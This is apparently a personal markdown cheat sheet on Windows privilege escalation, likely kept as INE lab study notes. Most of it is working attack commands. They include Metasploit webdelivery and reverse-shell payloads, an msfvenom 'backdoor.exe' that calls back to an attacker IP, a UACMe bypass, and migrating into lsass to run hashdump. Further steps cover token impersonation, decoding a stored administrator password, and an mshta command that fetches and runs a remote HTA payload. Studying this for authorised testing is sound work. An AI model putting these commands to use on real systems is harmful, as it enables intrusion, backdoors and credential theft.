




Also check out [Host-based-attacks > Windows > Credential Dumping](../Host%20Based%20Attacks/win-credsdump.md)

# Scripts

- https://github.com/itm4n/PrivescCheck (may find winlogon passwords)
- https://assets.ine.com/labs/ad-manuals/walkthrough-2404.pdf
- with winlogon creds, use psexec smb to login with the creds
- `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`

# Kernel Exploit:

- https://github.com/AonCyberLabs/Windows-Exploit-Suggester
- `./windows-exploit-suggester.py --update` - generates xls to use in nxt step
- `./windows-exploit-suggester.py --database <xlsfile>` --systeminfo <txt_file_systeminfo_output>
- google exploit, may need to upload .exe to target sys, run it to get elevated shell


# Metasploit Module:

- check [Webdelivery](../Exploitation/win-webdelivery.md)
- post/multi/recon/local_exploit_suggester : suggest exploits
	- eg. exploit/windows/local/ms16_014_wmi_recv_notif
- exploit/multi/script/webdelivery : when no vulnerable services running but you have access to victim cmd
	- set target PSH\ (Binary)
	- set payload windows/shell/reverse_tcp
	- set PSH-EncodedCommand false
	- copy-paste generated url and execute on victim cmd. should open shell in msf.
- post/multi/manage/shell_to_meterpreter
	- set WIN_TRANSFER VBS


# UACBypass - UACMe: need local admin account access

- exploit/windows/local/bypassuac_injection

  
   
- migrate process to explorer.exe 
- pgrep explorer.exe OR ps -S explorer.exe
- https://github.com/hfiref0x/UACME
- using meterpreter, upload Akagi64.exe and upload playload generated with msfvenom to target system
	- use exploit/multi/handler to start a listener
	- Akagi64.exe 23 <payload_path> 
	- Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
	- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.3 LPORT=4444 -f exe > 'backdoor.exe'
- once run, we will get meterpreter session - getprivs/getsystem to get elevated privs
- migrate to lsass.exe and run hashdump

# Impersonate

  
  

- load icognito
- list_tokens -u : make note of available tokens (eg. delegation token)
- impersonate_token <token_name>
	
  
  
  

# PowerUp

- https://github.com/PowerShellMafia/PowerSploit
- In target machine:
	- powershell -ep bypass (PowerShell execution policy bypass)
	- . .\PowerUp.ps1
	- Invoke-PrivescAudit - it will find misconfig files/leftover files like Unattend.xml
	- Get password from the Unattend.xml file, decode base64.
	- 
	```
	  $password='QWRtaW5AMTIz'
  	  $password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
  	  echo $password
  	```
	- runas.exe /user:administrator cmd
- In attacker machine:
	- use exploit/windows/misc/hta_server
	- running the above module generates a .hta payload, run in cmd on target
	- on target cmd: `mshta.exe http://10.10.0.2:8080/6Nz7aySfPN.hta`

# Metasploit module

- exploit/windows/local/bypassuac_injection
	- set target 1 : set correct target based on arch and run